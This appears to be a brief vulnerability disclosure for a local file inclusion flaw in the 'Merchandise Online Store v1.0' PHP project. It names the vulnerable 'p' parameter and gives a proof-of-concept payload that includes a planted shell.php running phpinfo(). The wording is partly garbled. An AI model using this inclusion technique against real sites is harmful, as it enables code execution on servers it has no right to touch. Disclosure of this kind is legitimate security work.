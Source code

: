 # Merchandise Online Store v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: ip/vloggers_merch/?p=

Vulnerability location: ip/vloggers_merch/?p=, p

Payload: ip/vloggers_merch/?p=shell

![image](https://user-images.githubusercontent.com/54017627/166878620-1da1f581-2df1-4970-bb30-eb37e7d55c63.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166878725-ca72883d-4400-414d-baf9-421238f3b873.png)

And visit http://ip/vloggers_merch/?p=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166878691-cdc9a38f-a23c-43f8-9b94-83a64f66ed6e.png)
